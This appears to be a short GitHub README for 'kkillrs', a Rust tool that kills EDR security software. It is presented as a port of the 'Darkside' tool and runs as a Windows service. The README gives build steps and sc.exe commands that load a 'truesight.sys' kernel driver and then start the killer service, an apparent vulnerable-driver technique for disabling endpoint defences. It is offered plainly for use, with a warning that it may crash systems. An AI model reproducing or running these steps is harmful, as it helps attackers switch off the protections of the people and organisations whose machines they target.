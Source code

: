 # kkillrs

WARNING: may cause BSODs. whoops.

It kills EDRs and stuff. Basically [Darkside](https://github.com/ph4nt0mbyt3/Darkside) but in Rust, and as a service.

## Instructions

```sh
cargo build --release
```

```bat
sc.exe create truesight.sys binPath=C:\temp\truesight.sys type=kernel
sc.exe start truesight.sys
sc.exe create kkillrs binPath=C:\temp\kkillrs.exe
sc.exe start kkillrs
```